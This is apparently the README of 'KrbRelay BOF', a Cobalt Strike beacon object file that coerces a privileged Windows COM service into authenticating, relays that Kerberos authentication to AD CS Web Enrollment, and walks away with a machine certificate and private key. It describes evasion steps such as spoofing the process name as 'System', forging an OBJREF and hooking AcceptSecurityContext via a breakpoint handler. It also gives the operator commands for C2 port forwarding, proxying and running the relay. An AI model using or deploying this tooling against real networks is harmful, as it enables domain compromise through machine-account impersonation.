

# KrbRelay BOF

KrbRelay BOF is a reusable, certificate-only implementation of COM coercion
and Kerberos relay for Cobalt Strike. A single x64 BOF causes a privileged
Windows COM server to authenticate to a task-owned RPC resolver, relays that
machine authentication to AD CS Web Enrollment, and returns without spawning
or injecting into another process.

The project deliberately ends at a verified machine certificate and private
key. It does not perform PKINIT, request an S4U ticket, import a ticket into the
Beacon, install a service, or extract credentials.

## Contents

- [What makes this implementation different?](#what-makes-this-implementation-different)
- [Components](#components)
- [Architecture](#architecture)
- [Technical walkthrough](#technical-walkthrough)
- [Why the BOF is reusable](#why-the-bof-is-reusable)
- [Vectored exception handling](#vectored-exception-handling)
- [KRB1 bridge protocol](#krb1-bridge-protocol)
- [Network topology](#network-topology)
- [Build](#build)
- [Usage](#usage)
- [Interpreting output](#interpreting-output)
- [Cleanup and state ownership](#cleanup-and-state-ownership)
- [Limitations](#limitations)
- [References](#references)

## What makes this implementation different?

Traditional KrbRelay-style implementations often move a larger relay payload
into a sacrificial process. This project keeps the Windows side in one COFF
object:

- One BOF execution performs exactly one genuine COM activation.
- The same BOF can be submitted again as a separate task in the same Beacon.
- No PE, DLL, shellcode, PIC blob, sRDI layer, remote allocation, or remote
  thread is part of the relay.
- No BOF code pointer is left in COM/RPCSS after the COFF is unloaded.
- The operator-facing CNA keeps the loopback addresses and static coercion
  CLSID internal.
- Cryptographic and HTTP work is isolated in Python, where the authenticated
  IIS connection can remain alive after the BOF returns.

The two artifacts required at runtime are:

| Artifact | Role |
| --- | --- |
| `bof/krbrelay.x64.o` | Creates the COM/RPC exchange and relays opaque authentication tokens. |
| `relay/relay_server.py` | Relays those tokens to IIS and completes Web Enrollment. |

`krbrelay.cna` is optional when the object is submitted directly through a C2
API. `Makefile`, `bof/krbrelay.c`, and `bof/beacon.h` are needed to rebuild it.

## Architecture

There are three network/security contexts and two long-lived connections. They
must not be confused with one another:



The RPC endpoint and bridge port serve different purposes:

- `RPC_PORT` is registered by the BOF inside the Beacon process. The forged
  OBJREF points the privileged COM server to this endpoint.
- `RELAY_PORT` is a reverse-forwarded loopback port. It carries KRB1 records
  from the BOF to Python running on the Cobalt client.

The proxy is used only for Python's outbound connection to AD CS. It does not
replace `rportfwd_local` and does not carry the target-local COM/RPC exchange.

## Technical walkthrough

### 1. Cobalt loads one COFF object

The CNA reads `bof/krbrelay.x64.o` with `script_resource()` for every task and
packs six fields using `zizzzz`:

1. Relay host — fixed by the CNA to target loopback.
2. Relay port — operator supplied.
3. HTTP service SPN — operator supplied.
4. RPC resolver address — fixed by the CNA to target loopback.
5. RPC resolver endpoint — operator supplied.
6. COM trigger CLSID — fixed to the tested Windows class.

The BOF copies all arguments into its loader-owned state. It does not retain a
pointer into Cobalt's argument buffer.

### 2. The invoking thread retains normal COM process lifetime

COM security is process-wide and becomes immutable after the first successful
`CoInitializeSecurity` call. `go()` calls `CoInitializeEx` on the invoking
Beacon thread before creating the worker:

- `S_OK`: the BOF created this apartment and intentionally retains the
  reference. This keeps the process's legitimate COM/security lifetime stable.
- `S_FALSE`: the thread was already initialized; the new reference is balanced
  immediately with `CoUninitialize`.
- `RPC_E_CHANGED_MODE`: another apartment model already owns the thread. The
  BOF leaves it untouched and continues on its own STA worker.

This is normal COM initialization, not an edit to undocumented COM security
state.

### 3. A disposable STA worker owns activation

The worker performs the complete relay attempt. This separates recoverable COM
activation failures from the long-lived Beacon task thread. It initializes an
STA, records its thread ID, and balances that reference during normal cleanup.

### 4. COM security is initialized or queried

The worker first calls `CoQueryAuthenticationServices`:

- If process security already advertises Negotiate or Kerberos, it is treated
  as immutable. The BOF does not call `CoInitializeSecurity` again.
- Otherwise, the BOF performs the first `CoInitializeSecurity` with one
  `SOLE_AUTHENTICATION_SERVICE` entry for Negotiate and the requested SPN.

COM can retain the authentication-service structure and principal pointer.
They are therefore allocated on the process heap and intentionally remain
process-lifetime data after a successful first registration. They are not
allocated on the BOF stack or inside memory reclaimed by the COFF loader.

During this one registration call, the BOF temporarily presents the process
image name `System` through the existing PEB string buffer. This passes the
RPC endpoint-registration filtering applied to ordinary processes. The seven
UTF-16 code units are restored immediately after `CoInitializeSecurity`.

### 5. COM supplies a fresh standard OBJREF identity

The BOF does not invent OXID, OID, and IPID values. It creates a native
in-memory stream and standard-marshals that object with `CoMarshalInterface`.
The resulting OBJREF agrees with RPCSS's process registrations.

The OBJREF consists of a 64-byte standard identity followed by a
`DUALSTRINGARRAY`:

```text
+0x00  MEOW signature, OBJREF type, IID and STDOBJREF fields
+0x20  OXID
+0x28  OID
+0x30  IPID
+0x40  DUALSTRINGARRAY entry count / security offset
+0x44  String and security towers
```

Only the `DUALSTRINGARRAY` is replaced:

- The string binding uses tower ID `7` (`ncacn_ip_tcp`) and the supplied
  target-local RPC address.
- On first use, the security tower created by COM is copied intact.
- On reuse, a fresh security tower is built with Negotiate, default
  authorization, and the supplied HTTP SPN.

The standard marshal packet remains registered until cleanup. Calling only
`IStream::Release` would not revoke its marshal-table entry, so cleanup seeks
back to the packet start and calls `CoReleaseMarshalData` first.

### 6. A custom IStorage exposes the rewritten OBJREF

`CoGetInstanceFromIStorage` receives an in-memory compound-file `IStorage`.
Most methods delegate to the native backing storage, but `QueryInterface` also
returns a custom `IMarshal`. When COM asks it to marshal, `MarshalInterface`
writes the rewritten OBJREF.

The two interface identities are the addresses of the first two vtable fields
inside one `TRIGGER` object. Reference count one is pinned because the object
lives in COFF loader-owned state; COM `Release` must never free it.

Vtable callback addresses are populated at runtime. Statically initializing
them would introduce absolute COFF relocations that some object loaders do not
support.

### 7. The process advertises IObjectExporter

The process-wide `ncacn_ip_tcp` listener is opened on `RPC_PORT`. A later task
using the same endpoint receives `RPC_S_DUPLICATE_ENDPOINT`, which is expected
because protocol-sequence listeners survive interface unregistration.

The per-task RPC interface is a heap-backed IObjectExporter interface
description with an empty dispatch table. The desired behavior happens before
dispatch: RPCSS authenticates the COM server's connection with SSPI. Once that
authentication is complete, the activation does not need a resolver method to
run.

### 8. The static COM class unmarshals the trigger

The BOF performs one local `CoGetInstanceFromIStorage` activation using the
static `McpManagementService` CLSID. The privileged server sees the custom
storage marshal packet and attempts to resolve its OBJREF. That produces a new
authenticated RPC connection to the BOF's endpoint.

Each task has a new anchor and standard OBJREF identity. The second execution
does not repeat work inside the first BOF—it is a distinct Cobalt task loading
the same COFF again.

### 9. The SSPI hook captures each RPC authentication leg

An RPC PDU can span several `SECBUFFER_DATA` entries. `accept_hook` flattens
them, validates the DCE/RPC header, and reads:

- `frag_length` at PDU offset 8.
- `auth_length` at offset 10.
- The eight-byte security trailer immediately before `auth_value`.
- `auth_type` at `auth_value_offset - 8`.

Only GSS Negotiate or GSS Kerberos authentication values enter the bridge. The
complete `auth_value` is forwarded; the BOF does not search for or rewrite an
AP-REQ, AP-REP, or KRB-ERROR.

### 10. Python owns the IIS connection

Python starts with an unauthenticated `GET /certsrv/`. IIS must answer `401`
with `WWW-Authenticate: Negotiate`. For every client token received from the
BOF, Python sends:

```http
Authorization: Negotiate BASE64_RPC_AUTH_VALUE
```

If IIS responds `401` with a continuation, Python sends the decoded binary
challenge back to the BOF. Normal Kerberos/SPNEGO tokens are byte-for-byte
opaque. There is a narrow compatibility adapter for an RPC Negotiate provider
that exposes raw NTLMSSP instead of an SPNEGO wrapper.

The same TCP connection is used for the initial probe, every authentication
leg, the final HTTP `200`, certificate submission, and certificate retrieval.
Reconnecting would lose IIS's connection-bound authentication context.

### 11. RPCSS consumes the IIS continuation

The native `AcceptSecurityContext` still has to advance the local RPCSS state.
The hook calls it with a temporary output descriptor and discards its local
continuation. It then discovers RPCSS's actual `SECBUFFER_TOKEN` at runtime and
publishes the IIS continuation there with the exact returned length.

This is why the implementation does not use a packed RPCSS structure or a
fixed output offset. Buffer order and placement can differ across contexts and
Windows builds.

### 12. HTTP success releases the BOF

When IIS returns `200`, Python owns an authenticated connection as the machine
account. It sends `MSG_AUTH_OK` immediately. The BOF clears any pending local
token output and returns `SEC_E_LOGON_DENIED` to tear down the intentionally
mismatched local RPC association. Python continues enrollment independently.

The Python side generates a 4096-bit RSA key and machine CSR, submits the
selected certificate template, retrieves the issued certificate, and verifies:

- The certificate public key matches the in-memory private key.
- The certificate has the client-authentication EKU.

The private key remains only in Python memory unless `--pfx-out` or
`--export-pfx-b64` is selected.

## Why the BOF is reusable

The original in-process approach replaced the SSPI function-table entry with
the address of a BOF callback. COM/RPCSS could cache that pointer while setting
up immutable process security. Unloading the COFF then left a pointer into
invalid memory, causing later activity or a second activation to terminate the
Beacon.

This implementation instead leaves COM pointing at native, resident
`AcceptSecurityContext` and uses a transient breakpoint:

```text
RPCSS calls resident AcceptSecurityContext
                |
                v
          first byte is INT3
                |
                v
      VEH sets RIP = current accept_hook
                |
                v
  hook restores native byte around real SSPI call
                |
                v
       hook reinstalls INT3 for next leg
```

Before the BOF returns, cleanup restores the original byte and removes the VEH.
The only SSPI address that immutable COM can retain belongs to `secur32.dll`,
not the unloaded COFF. A later task can install its own breakpoint and hook.

## Vectored exception handling

The VEH is filtered rather than being a process-wide catch-all:

- An `EXCEPTION_BREAKPOINT` exactly at the hooked native address redirects to
  `accept_hook`, on whichever RPC thread reached it.
- Another exception is contained only when it occurs on the dedicated BOF
  worker. The handler records its code, flags, address, parameters, and worker
  thread ID, then exits that worker.
- Exceptions belonging to other Beacon/runtime threads continue through the
  normal Windows exception chain.

The handler exists only from immediately before worker creation until after
the worker exits. Removing it before unloading the object prevents Windows
from retaining a callback into unmapped BOF memory.

## KRB1 bridge protocol

Each record has a fixed 12-byte network-byte-order header:

| Offset | Size | Field |
| ---: | ---: | --- |
| 0 | 4 | ASCII magic `KRB1` |
| 4 | 1 | Protocol version (`3`) |
| 5 | 1 | Message type |
| 6 | 2 | Reserved, must be zero |
| 8 | 4 | Payload length, big endian |

Message types:

| Value | Direction | Meaning |
| ---: | --- | --- |
| 3 | BOF → Python | Complete RPC client authentication value |
| 4 | Python → BOF | IIS continuation to publish into RPCSS |
| 5 | Python → BOF | IIS returned HTTP 200; release the BOF |
| 6 | Either | Bounded non-sensitive error text |

The BOF and Python validate the allowed type and length at each state. Token
records are limited to 65,535 bytes and errors to 512 bytes.

## Network topology

A two-Beacon topology is useful when the AD CS route exists only through a
Cobalt SOCKS pivot:

| Role | Required state |
| --- | --- |
| Proxy/forward Beacon | Owns SOCKS and `rportfwd_local`; keep sleep at `0`. |
| KrbRelay Beacon | Runs only the BOF; normally keep sleep at `5`. |
| Python relay | Runs on the same client that owns `rportfwd_local`. |

Python's AD CS connection is the only connection run through proxychains. The
listener remains local:

```sh
proxychains4 -q -f /path/to/proxychains.conf \
  /path/to/python relay/relay_server.py \
  --port RELAY_PORT \
  --allow 127.0.0.1 \
  --adcs-address ADCS_ADDRESS \
  --adcs-host ADCS_HOST \
  --adcs-port 80 \
  --domain DOMAIN \
  --machine MACHINE_NAME \
  --template Machine \
  --pfx-out 'MACHINE_NAME-{request_id}.pfx'
```

`rportfwd_local` belongs to the lifetime of the Cobalt client that created it.
Restarting an ephemeral client can leave a target-side port that no longer has
a working destination. Stop the old forward or select a new relay port and
recreate it.

## Build

The Makefile expects an x64 MinGW-w64 package tree under
`/tmp/krb-mingw-root`. Override `MINGW_PREFIX` for another installation.

```sh
make clean
make
make verify
```

`make verify` checks that the output is an x64 COFF with relocations and rejects
undefined symbols other than BOF imports and Beacon APIs. The only generated
artifact is `bof/krbrelay.x64.o`.

## Usage

Load `krbrelay.cna`, then create the reverse forward from the proxy/forward
Beacon:

```text
rportfwd_local RELAY_PORT 127.0.0.1 RELAY_PORT
```

After Python prints its matching-command line, execute on the separate x64
KrbRelay Beacon:

```text
krbrelay RELAY_PORT http/ADCS_HOST RPC_PORT
```

Example topology with placeholders:

```text
Proxy Beacon:    rportfwd_local 9597 127.0.0.1 9597
KrbRelay Beacon: krbrelay 9597 http/ca.example.test 65260
```

Every invocation does one activation. To obtain another fresh certificate,
leave Python running with `--count 2` and submit the same command again as a
separate Beacon task.

### Relay options

```text
--listen ADDRESS       KRB1 listener address; defaults to loopback
--port PORT            KRB1 listener / target reverse-forward port
--allow ADDRESS        only accepted KRB1 peer address
--adcs-host HOST       HTTP Host and service-SPN hostname
--adcs-address ADDRESS destination used for the actual TCP connection
--adcs-port PORT        defaults to 80
--domain DOMAIN        certificate subject domain
--machine NAME         machine account name without trailing $
--template NAME        Web Enrollment template
--count N              independent bridge sessions to accept
--pfx-out PATH         passwordless PKCS#12 output; supports {request_id}
--export-pfx-b64       additionally print the PKCS#12 as base64
--trace-spnego         print complete authentication-token material
```

`--trace-spnego` and `--export-pfx-b64` produce sensitive material. Without
them, normal output contains only protocol metadata, status, and CA request ID.

## Interpreting output

A complete BOF-side success includes:

```text
[*] Triggering COM machine authentication
[*] Relayed authentication leg 1
[*] Relayed authentication leg 2
[+] IIS authenticated the relayed machine account
```

Python must independently report:

```text
[*] IIS returned HTTP 200
[*] ADCS issued request <ID>
[*] Verified that the issued certificate matches the in-memory private key
[*] Verified client-authentication EKU
[+] Machine certificate acquired and key pair verified
```

BOF completion occurs before enrollment finishes, so neither output stream is
sufficient by itself.

The numeric failure stage identifies the failing subsystem:

| Stage family | Area |
| ---: | --- |
| 1–9 | Arguments, VEH, or worker startup |
| 10–31 | COM apartment, immutable policy, SSPI hook, or security registration |
| 39–66 | Native anchor, standard marshal, OBJREF, endpoint, or storage |
| 70 | COM activation / relay callbacks |
| 80 | Relay success |
| 94 | Contained worker exception |

`trace` is a bitmask showing which IStorage/IMarshal and continuation paths COM
reached. It remains internal diagnostic state rather than routine BOF output.

## Cleanup and state ownership

Cleanup intentionally follows this order:

1. Wait until no hook callback is active.
2. Unregister the task-owned resolver interface with wait semantics.
3. Free its heap-backed empty dispatch table and interface descriptor.
4. Restore the native `AcceptSecurityContext` byte.
5. Wait again before COM teardown.
6. Balance the worker STA reference.
7. Free any unconsumed continuation and close the bridge socket.
8. Remove the VEH before the COFF can be unloaded.

The process-wide RPC protocol listener and legitimate COM process security
remain. They contain no pointer to the task's BOF code. This separation is what
allows the next independent invocation to reuse the process safely.

## Limitations

- The BOF and CNA require an x64 Beacon.
- The static coercion CLSID was selected for the tested Windows 11 target. A
  different COM class may require a different activation shape, not merely a
  different CLSID string.
- An already-immutable process must advertise Negotiate or Kerberos through
  `CoQueryAuthenticationServices`.
- The relay implements HTTP/1.1 Web Enrollment, not HTTPS termination.
- The service SPN hostname, IIS Host header, and environment's Kerberos service
  identity must agree.
- The machine account needs permission to enroll the selected template.
- The client owning `rportfwd_local` must remain connected through the BOF
  exchange, and a proxy used for AD CS must remain healthy through retrieval.

## References

- James Forshaw, [Windows Exploitation Tricks: Relaying DCOM Authentication](https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html)
- Microsoft, [Distributed Component Object Model (DCOM) Remote Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dcom/)
- Microsoft, [Remote Procedure Call Protocol Extensions](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rpce/)
- Microsoft, [AcceptSecurityContext](https://learn.microsoft.com/en-us/windows/win32/secauthn/acceptsecuritycontext--general)
- `docs/protocol.md` for the repository's compact KRB1 state machine.
